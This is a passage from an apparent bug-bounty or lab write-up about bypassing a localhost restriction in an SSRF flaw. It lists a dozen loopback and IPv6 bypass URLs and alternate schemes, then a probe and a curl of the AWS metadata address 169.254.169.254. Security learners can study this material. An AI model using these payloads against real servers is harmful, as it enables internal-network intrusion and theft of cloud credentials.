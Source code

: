 ![](https://miro.medium.com/v2/resize:fit:875/1*VQMBJahcGdi9fvIpsJKbpQ.png)


There was a protection for this one , but i didn’t give up and i went through all the way’s to bypass localhost restriction , I tried all of these payloads :

> [http://127.0.0.1:80](http://127.0.0.1/)
> 
> [http://127.0.0.1:443](http://127.0.0.1:443/)
> 
> [http://127.0.0.1:22](http://127.0.0.1:22/)
> 
> [http://127.1:80](http://127.0.0.1/)
> 
> [http://0](http://0.0.0.0/)
> 
> [http://0.0.0.0:80](http://0.0.0.0/)
> 
> [http://localhost:80](http://localhost/)
> 
> [http://[::]:80/](http://[::]/)
> 
> [http://[::]:25/](http://[::]:25/) SMTP
> 
> [http://[::]:3128/](http://[::]:3128/) Squid
> 
> [http://[0000::1]:80/](http://[::1]/)
> 
> [http://[0:0:0:0:0:ffff:127.0.0.1]/thefile](http://[::ffff:7f00:1]/thefile)

And lot’s of other’s which you can find in ~> [https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery).

Even i tried other protocols like : “file:///” , “sftp://” , “gopher://” and so on .

None of them works ! :(

After a while something triggers my mind , that why not trying “http://169.254.169.254/” for retrieving AWS metadata instances ?.

So i did that and i got :

![](https://miro.medium.com/v2/resize:fit:875/1*gkMWbL-6WxJHbrhpL2aopg.png)

							Cloudflare everywhere ! :@


— — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — 

from: [What is this IP address: 169.254.169.254?](https://serverfault.com/questions/427018/what-is-this-ip-address-169-254-169-254)

In ec2, each instance can get meta-data regarding their own by making HTTP requests to this IP.

```
$ curl -s http://169.254.169.254/user-data/
```
